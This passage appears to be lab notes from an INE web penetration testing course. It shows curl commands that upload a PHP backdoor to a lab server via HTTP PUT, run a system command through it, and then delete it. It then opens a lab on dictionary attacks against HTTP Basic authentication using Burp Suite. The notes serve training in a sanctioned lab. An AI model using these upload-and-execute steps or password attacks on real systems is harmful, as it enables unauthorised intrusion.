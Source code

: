 `curl -X PUT http://demo.ine.local/uploads/ --upload-file ./shell.php`:
```html
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>
```

`curl -X GET http://demo.ine.local/uploads/`:
```html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<html>
 <head>
  <title>Index of /uploads</title>
 </head>
 <body>
<h1>Index of /uploads</h1>
  <table>
   <tr><th valign="top"><img src="/icons/blank.gif" alt="[ICO]"></th><th><a href="?C=N;O=D">Name</a></th><th><a href="?C=M;O=A">Last modified</a></th><th><a href="?C=S;O=A">Size</a></th><th><a href="?C=D;O=A">Description</a></th></tr>
   <tr><th colspan="5"><hr></th></tr>
<tr><td valign="top"><img src="/icons/back.gif" alt="[PARENTDIR]"></td><td><a href="/">Parent Directory</a></td><td>&nbsp;</td><td align="right">  - </td><td>&nbsp;</td></tr>
<tr><td valign="top"><img src="/icons/unknown.gif" alt="[   ]"></td><td><a href="shell.php">shell.php📌</a></td><td align="right">2024-11-27 12:25  </td><td align="right">328 </td><td>&nbsp;</td></tr>📌
   <tr><th colspan="5"><hr></th></tr>
</table>
</body></html>
```

`curl http://demo.ine.local/uploads/shell.php?cmd=id`:
```html
<!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

<pre>uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre>🚩
```

`curl -X DELETE http://demo.ine.local/uploads/shell.php`

### Attacking HTTP Basic Authentication

#### Lab Environment

**Attacking HTTP Basic Authentication with Burp Suite**

Web Application Pentesting Tools can prove to be very helpful while performing penetration testing. 

In this lab exercise, we will take a look at how to use [Burp Suite](https://portswigger.net/support/burp-suite-tools) to perform a dictionary attack on HTTP Basic authentication protected directories.

**Objective**: <u>Perform Dictionary Attack on the password-protected directory `/basic`</u>.

Instructions: 
- This lab is dedicated to you! No other users are on this network :)
- Once you start the lab, you will have access to a Kali GUI instance.
- Your Kali instance has an interface with IP address `192.X.Y.2`. Run `ip addr` to know the values of X and Y.
- Do not attack the gateway located at IP address `192.X.Y.1`.
- HTTP Authentication username is "admin".
- For dictionary attack, use the password wordlist: `/root/Desktop/wordlists/100-common-passwords.txt`.
